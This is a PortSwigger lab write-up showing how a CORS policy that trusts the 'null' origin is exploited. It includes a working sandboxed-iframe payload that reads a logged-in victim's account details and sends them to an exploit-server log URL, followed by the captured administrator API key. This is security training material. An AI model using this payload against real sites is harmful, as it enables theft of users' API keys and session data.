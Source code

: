 # CORS vulnerability with trusted null origin

## Introduction

Welcome to my another writeup! In this Portswigger Labs [lab](https://portswigger.net/web-security/cors/lab-null-origin-whitelisted-attack), you'll learn: CORS vulnerability with trusted null origin! Without further ado, let's dive in.

- Overall difficulty for me (From 1-10 stars): ★☆☆☆☆☆☆☆☆☆

## Background

This website has an insecure [CORS](https://portswigger.net/web-security/cors) configuration in that it trusts the "null" origin.

To solve the lab, craft some JavaScript that uses CORS to retrieve the administrator's API key and upload the code to your exploit server. The lab is solved when you successfully submit the administrator's API key.

You can log in to your own account using the following credentials: `wiener:peter`

## Exploitation

**Login as user `wiener`:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Cross-Origin-Resource-Sharing/CORS-2/images/Pasted%20image%2020221227060104.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Cross-Origin-Resource-Sharing/CORS-2/images/Pasted%20image%2020221227060113.png)

**In the previous lab, we found that after logged in, it'll send a GET request to `/accountDetails`, which fetches account's data:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Cross-Origin-Resource-Sharing/CORS-2/images/Pasted%20image%2020221227060127.png)

And it supports CORS(Cross-Origin Resource Sharing).

**Let's send that request to Burp Repeter, and add a HTTP header called `Origin` with a random host:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Cross-Origin-Resource-Sharing/CORS-2/images/Pasted%20image%2020221227060333.png)

Hmm... The response header doesn't include our origin host.

Maybe it has a whitelist domains?

Now, some applications might whitelist the `null` origin to support local development of the application.

**Let's test `null` origin:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Cross-Origin-Resource-Sharing/CORS-2/images/Pasted%20image%2020221227060449.png)

It's reflected in the response header!

In this situation, we can use various tricks to generate a cross-origin request containing the value `null` in the Origin header. This will satisfy the whitelist, leading to cross-domain access.

**For example, this can be done using a sandboxed `iframe` cross-origin request:**
```html
<html>
    <head>
        <title>CORS-2</title>
    </head>
    <body>
        <iframe sandbox="allow-scripts allow-top-navigation allow-forms" srcdoc="<script>
            var req = new XMLHttpRequest();
            req.onload = reqListener;
            req.open('get','https://0a6e007004bec549c19b804a0097005f.web-security-academy.net/accountDetails',true);
            req.withCredentials = true;
            req.send();
            function reqListener() {
                location='exploit-0a5f00000465c524c1317f9301160049.exploit-server.net/log?key='+encodeURIComponent(this.responseText);
            };
            </script>">
        </iframe>
    </body>
</html>
```

**Then, host it on the exploit server, and test it:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Cross-Origin-Resource-Sharing/CORS-2/images/Pasted%20image%2020221227062748.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Cross-Origin-Resource-Sharing/CORS-2/images/Pasted%20image%2020221227062759.png)

**Exploit server access log:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Cross-Origin-Resource-Sharing/CORS-2/images/Pasted%20image%2020221227062829.png)

**It worked! Let's deliver the exploit to the victim:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Cross-Origin-Resource-Sharing/CORS-2/images/Pasted%20image%2020221227062855.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Cross-Origin-Resource-Sharing/CORS-2/images/Pasted%20image%2020221227062918.png)

```json
{
    "username": "administrator",
    "email": "",
    "apikey": "bH4kjHMfSlrABceuqVweDZDJYo7H55do",
    "sessions": [
        "i3pE78c1OzvDZw7YK8AH2YEcD8x5zQCX"
    ]
}
```

**Let's submit the API key:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Cross-Origin-Resource-Sharing/CORS-2/images/Pasted%20image%2020221227063005.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Cross-Origin-Resource-Sharing/CORS-2/images/Pasted%20image%2020221227063010.png)

# What we've learned:

1. CORS vulnerability with trusted null origin